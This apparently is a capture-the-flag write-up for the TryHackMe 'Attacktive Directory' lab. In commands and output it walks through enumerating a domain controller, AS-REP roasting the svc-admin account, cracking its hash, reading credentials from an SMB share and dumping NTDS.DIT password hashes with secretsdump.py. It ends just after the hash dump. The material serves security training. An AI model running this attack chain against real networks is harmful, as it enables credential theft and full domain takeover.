

# Attacktive Directory

99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

- [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Deploy The Machine

Initiate the VPN connection and deploy the machine!

1. Initiate the VPN connection and deploy the machine!

`No answer needed`

## Task 2 Impacket Installation

**Introduction:**

So you're likely here if you've had issues with Impacket. Impacket is moderately frustrating to say the least... A lot of people have issues with it, so let's walk through the Impacket install process!

**Installing Impacket:**

First, you'll want to clone the repo with: `git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket`

This will clone Impacket to /opt/impacket/, after the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. Setup.py is commonly skipped during the installation. It's key that you DO NOT miss it.

So let's install the requirements: `pip3 install -r /opt/impacket/requirements.txt`

Once all the python modules are installed, we can then run the python setup install script: `cd /opt/impacket/ && python3 ./setup.py install`

After that, Impacket should be correctly installed now and it should be ready to use!

If you are still having issues, you can try the following:

`sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket sudo pip3 install -r /opt/impacket/requirements.txt sudo cd /opt/impacket/ sudo pip3 install . sudo python3 setup.py install`

Credit: Dragonar in the THM Discord

1. Read and follow along with the above.

`No answer needed`

## Task 3 Enumerate the DC

**Initial note:**

Flags for each user account are available for submission. You can retrieve the flags for user accounts via RDP (Note: the login format is spookysec.local/User at the Window's login prompt) and Administrator via Evil-WinRM.

Basic enumeration tactics will yield a number of ports open. Using a popular enumeration tool that's built on Linux 4 Windows will reveal some information, not a lot to work with however.

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo nmap -A -sS -sC -sV -O 10.10.225.245
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-17 10:38 CEST
Nmap scan report for 10.10.225.245
Host is up (0.041s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-17 08:39:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-17T08:41:32+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-10-17T08:41:47+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/17%Time=5F8AADAC%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/17%OT=53%CT=1%CU=43719%PV=Y%DS=2%DC=T%G=Y%TM=5F8AAE
OS:87%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M508NW8NNS%O2=M508NW8NNS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NN
OS:S%O6=M508NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M508NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-17T08:41:33
|_  start_date: N/A

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   46.51 ms 10.8.0.1
2   46.93 ms 10.10.225.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 234.47 seconds
```

1. What tool will allow us to enumerate port 139/445?

`enum4linux`

2. What is the NetBIOS-Domain Name of the machine?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ enum4linux 10.10.225.245
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Oct 17 10:44:44 2020

 ==========================
|    Target Information    |
 ==========================
Target ........... 10.10.225.245
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =====================================================
|    Enumerating Workgroup/Domain on 10.10.225.245    |
 =====================================================
[E] Can't find workgroup/domain


 =============================================
|    Nbtstat Information for 10.10.225.245    |
 =============================================
Looking up status of 10.10.225.245
No reply from 10.10.225.245

 ======================================
|    Session Check on 10.10.225.245    |
 ======================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[+] Server 10.10.225.245 allows sessions using username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
[+] Got domain/workgroup name:

 ============================================
|    Getting domain SID for 10.10.225.245    |
 ============================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)

 =======================================
|    OS information on 10.10.225.245    |
 =======================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 458.
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.10.225.245 from smbclient:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 467.
[+] Got OS info for 10.10.225.245 from srvinfo:
Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

 ==============================
|    Users on 10.10.225.245    |
 ==============================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED

 ==========================================
|    Share Enumeration on 10.10.225.245    |
 ==========================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 640.

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.225.245

 =====================================================
|    Password Policy Information for 10.10.225.245    |
 =====================================================
[E] Unexpected error from polenum:


[+] Attaching to 10.10.225.245 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.10.225.245)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: Missing required parameter 'digestmod'.

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[E] Failed to get password policy with rpcclient


 ===============================
|    Groups on 10.10.225.245    |
 ===============================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.

[+] Getting builtin groups:

[+] Getting builtin group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.

[+] Getting local groups:

[+] Getting local group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 593.

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 10.10.225.245 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 710.
[I] Found new SID: S-1-5-21-3591857110-2884097990-301047963
[I] Found new SID: S-1-5-21-3532885019-1334016158-1514108833
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 742.
[+] Enumerating users using SID S-1-5-21-3591857110-2884097990-301047963 and logon username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-500 THM-AD\Administrator (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-501 THM-AD\Guest (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-502 THM-AD\krbtgt (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-512 THM-AD\Domain Admins (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-513 THM-AD\Domain Users (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-514 THM-AD\Domain Guests (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-515 THM-AD\Domain Computers (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-516 THM-AD\Domain Controllers (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-517 THM-AD\Cert Publishers (Local Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-518 THM-AD\Schema Admins (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-519 THM-AD\Enterprise Admins (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-520 THM-AD\Group Policy Creator Owners (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-521 THM-AD\Read-only Domain Controllers (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-522 THM-AD\Cloneable Domain Controllers (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-523 *unknown*\*unknown* (8)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-524 *unknown*\*unknown* (8)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-525 THM-AD\Protected Users (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-526 THM-AD\Key Admins (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-527 THM-AD\Enterprise Key Admins (Domain Group)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-550 *unknown*\*unknown* (8)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3591857110-2884097990-301047963-1000 THM-AD\ATTACKTIVEDIREC$ (Local User)
S-1-5-21-3591857110-2884097990-301047963-1050 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-5-21-3532885019-1334016158-1514108833 and logon username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3532885019-1334016158-1514108833-500 ATTACKTIVEDIREC\Administrator (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3532885019-1334016158-1514108833-501 ATTACKTIVEDIREC\Guest (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3532885019-1334016158-1514108833-502 *unknown*\*unknown* (8)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3532885019-1334016158-1514108833-503 ATTACKTIVEDIREC\DefaultAccount (Local User)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 834.
S-1-5-21-3532885019-1334016158-1514108833-504 ATTACKTIVEDIREC\WDAGUtilityAccount (Local User)
S-1-5-21-3532885019-1334016158-1514108833-513 ATTACKTIVEDIREC\None (Domain Group)

 ==============================================
|    Getting printer info for 10.10.225.245    |
 ==============================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 991.
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sat Oct 17 10:48:15 2020
```

`THM-AD`

3. What invalid TLD do people commonly use for their Active Directory Domain?

`DNS_Domain_Name: spookysec.local`

`.local`

## Task 4 Enumerate the DC Pt 2

**Introduction:**

A whole host of other services are running, including Kerberos. **Kerberos** is a key authentication service within Active Directory. With this port open, we can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) (by Ronnie Flathers [@ropnop](https://twitter.com/ropnop)) to brute force discovery of users, passwords and even password spray!

**Enumeration:**

For this box, a modified [User List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) and [Password List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) will be used to cut down on time of enumeration of users and password hash cracking. It is **NOT** recommended to brute force credentials due to account lockout policies that we cannot enumerate on the domain controller.

1. What command within Kerbrute will allow us to enumerate valid usernames?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 -h

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

`userenum`

2. What notable account is discovered? (These should jump out at you)

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
--2020-10-17 11:08:02--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 744407 (727K) [text/plain]
Saving to: ‘userlist.txt’

userlist.txt                                     100%[=======================================================================================================>] 726.96K   456KB/s    in 1.6s

2020-10-17 11:08:04 (456 KB/s) - ‘userlist.txt’ saved [744407/744407]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
--2020-10-17 11:08:13--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569236 (556K) [text/plain]
Saving to: ‘passwordlist.txt’

passwordlist.txt                                 100%[=======================================================================================================>] 555.89K  2.24MB/s    in 0.2s

2020-10-17 11:08:13 (2.24 MB/s) - ‘passwordlist.txt’ saved [569236/569236]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

2020/10/17 11:08:19 >  Using KDC(s):
2020/10/17 11:08:19 >   spookysec.local:88

2020/10/17 11:08:20 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/17 11:08:21 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/17 11:08:22 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/17 11:08:27 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/17 11:08:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/17 11:08:37 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/17 11:08:52 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/17 11:08:57 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/17 11:09:14 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/17 11:09:19 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/17 11:09:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2020/10/17 11:10:16 >  Done! Tested 100000 usernames (16 valid) in 116.694 seconds
```

`svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## Task 5 Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`svc-admin`

2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)



`Kerberos 5 AS-REP etype 23`

3. What mode is the hash?

`18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd0...0ef396
Time.Started.....: Sat Oct 17 11:20:29 2020 (14 secs)
Time.Estimated...: Sat Oct 17 11:20:43 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   423.7 kH/s (7.51ms) @ Accel:48 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5842944/14344385 (40.73%)
Rejected.........: 0/5842944 (0.00%)
Restore.Point....: 5836800/14344385 (40.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: manaiagal -> mamglo

Started: Sat Oct 17 11:19:50 2020
Stopped: Sat Oct 17 11:20:44 2020
```

`management2005`

## Task 6 Enumerate the DC Pt 3

**Enumeration:**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

1. Using utility can we map remote SMB shares?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin -L //10.10.225.245
Enter SPOOKYSEC.LOCAL\svc-admin's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

`smbclient`

2. Which option will list shares?

`-L`

3. How many remote shares is the server listing?

`6`

4. There is one particular share that we have access to that contains a text file. Which share is it?

`backup`

5. What is the content of the file?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin //10.10.225.245/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3465084 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

6. Decoding the contents of the file, what is the full contents?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```

`backup@spookysec.local:backup2517860`

## Task 7 Elevating Privileges

**Introduction:**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes


Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

1. What method allowed us to dump NTDS.DIT?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.225.245 spookysec.local/backup:backup2517860@10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
